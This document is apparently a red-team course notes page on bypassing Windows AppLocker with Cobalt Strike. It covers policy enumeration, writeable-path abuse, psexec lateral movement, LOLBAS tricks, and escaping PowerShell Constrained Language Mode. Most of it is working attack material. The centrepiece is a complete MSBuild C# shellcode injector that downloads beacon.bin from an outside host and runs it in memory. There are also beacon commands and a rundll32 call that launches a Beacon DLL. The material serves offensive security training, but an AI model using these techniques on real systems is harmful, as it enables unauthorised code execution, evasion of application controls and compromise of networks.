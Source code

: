 # AppLocker

AppLocker restricts apps and scripts that are allowed to run on a machine, defined through a set of policies pushed via GPO. Rules can allow or deny based on file attributes such as publisher, name, version, hash or path, and can be assigned on an individual user or group basis. AppLocker also changes the PS [Language Mode](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes) from FullLanguage to ConstrainedLanguage, which restricts the .NET types that can be used.

AppLocker is only as good as the defined ruleset, and comes with default rules which are very broad and allow all executables and scripts located in the Program Files and Windows directories.

## Policy Enumeration

AppLocker is applied to dc.dev-studio.com.

The policy can be read from two places:

* Directly from the GPO (find the GPO, download the Registry.pol file from the gpcfilesyspath and parse with Parse-PolFile)
* From the local registry of a machine they're applied to

      beacon> powershell Get-DomainGPO -Domain dev-studio.com | ? { $_.DisplayName -like "*AppLocker*" } | select displayname, gpcfilesyspath
      
      AppLocker   \\dev-studio.com\SysVol\dev-studio.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}
      
      beacon> download \\dev-studio.com\SysVol\dev-studio.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}\Machine\Registry.pol

Example ValueData:

    ValueData: <FilePathRule Id="a61c8b2c-a319-4cd0-9690-d2177cad7b51" Name="(Default Rule) All files located in the Windows folder" Description="Allows members of the Everyone group to run applications that are located in the Windows folder." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%WINDIR%\*"/></Conditions></FilePathRule>

Query the registry at ```HKLM:Software\Policies\Microsoft\Windows\SrpV2``` to obtain the same.

    PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"
    PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe"

DLL rules are not enforced -- Microsoft claims it can impact system performance.

## Writeable Paths

The default rules allow execution from C:\Program Files and C:\Windows. Moving laterally to a protected machine via psexec is trivial, because the service executable is written into C:\Windows:

    beacon> jump psexec64 dc.dev-studio.com smb

If on a protected machine as a standard user, several directories within C:\Windows are writeable, e.g. C:\Windows\Tasks -- allows us to copy an executable in and run it:

    beacon> powershell Get-Acl C:\Windows\Tasks | fl

When enumerating rules, may also find more weak rules by system admins, e.g.:

<FilePathCondition Path="*\AppV\*"/>

## Living Off The Land Binaries, Scripts and Libraries

LOLBAS are binaries and scripts that are part of Windows but allow for arbitrary code execution. They allow bypassing AppLocker, because they're in trusted paths and may also be signed by Microsoft.

The [LOLBAS website](https://lolbas-project.github.io) contains hundreds of usable examples. If not blocked,MSBuild can be used to execute arbitrary C# code from a .csproj or .xml file:

    <Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
      <Target Name="MSBuild">
       <MSBuildTest/>
      </Target>
       <UsingTask
        TaskName="MSBuildTest"
        TaskFactory="CodeTaskFactory"
        AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
         <Task>
          <Code Type="Class" Language="cs">
            <![CDATA[
                using System;
                using Microsoft.Build.Framework;
                using Microsoft.Build.Utilities;
    
                public class MSBuildTest : Task, ITask
                {
                    public override bool Execute()
                    {
                        Console.WriteLine("Hello World");
                        return true;
                    }
                }
            ]]>
          </Code>
        </Task>
      </UsingTask>
    </Project>

Turn this into a basic shellcode injector:

<details>
  <summary> Injector </summary>

```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Net;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    byte[] shellcode;
                    using (var client = new WebClient())
                    {
                        client.BaseAddress = "http://nickelviper.com";
                        shellcode = client.DownloadData("beacon.bin");
                    }
      
                    var hKernel = LoadLibrary("kernel32.dll");
                    var hVa = GetProcAddress(hKernel, "VirtualAlloc");
                    var hCt = GetProcAddress(hKernel, "CreateThread");

                    var va = Marshal.GetDelegateForFunctionPointer<AllocateVirtualMemory>(hVa);
                    var ct = Marshal.GetDelegateForFunctionPointer<CreateThread>(hCt);

                    var hMemory = va(IntPtr.Zero, (uint)shellcode.Length, 0x00001000 | 0x00002000, 0x40);
                    Marshal.Copy(shellcode, 0, hMemory, shellcode.Length);

                    var t = ct(IntPtr.Zero, 0, hMemory, IntPtr.Zero, 0, IntPtr.Zero);
                    WaitForSingleObject(t, 0xFFFFFFFF);

                    return true;
                }

            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)]string lpFileName);
    
            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

            [DllImport("kernel32")]
            private static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr AllocateVirtualMemory(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

</details>

Use http_x64.xprocess.bin here and host it on the Cobalt Strike Team Server via Site Management > Host File.

## PowerShell CLM

If running a script or command in PS results in an error like "only core types in this language mode", then you're in a restricted environment. If you can find an AppLocker bypass to execute arbitrary code, you can also break out of PS Constrained Language Mode by using an unmanaged PowerShell runspace. If you have a Beacon running on a target, use powerpick:

    beacon> powershell $ExecutionContext.SessionState.LanguageMode
    ConstrainedLanguage
    beacon> powerpick $ExecutionContext.SessionState.LanguageMode
    FullLanguage

Can also be done in C# (using MSBuild as the example again):

<details>
  <summary> FullLanguage example code </summary>

```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
     <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Linq;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;

            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    using (var runspace = RunspaceFactory.CreateRunspace())
                    {
                      runspace.Open();

                      using (var posh = PowerShell.Create())
                      {
                        posh.Runspace = runspace;
                        posh.AddScript("$ExecutionContext.SessionState.LanguageMode");
                                                
                        var results = posh.Invoke();
                        var output = string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray());
                        
                        Console.WriteLine(output);
                      }
                    }

                return true;
              }
            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```


</details>

## Beacon DLL

DLL enforcement is not usually enabled so can call exported functions from DLLs on disk via rundll32. Beacon's DLL payload exposes several exports including DllMain and StartW. These can be changed in the Artifact Kit under src-main, dllmain.def.

    C:\Windows\System32\rundll32.exe http_x64.dll,StartW

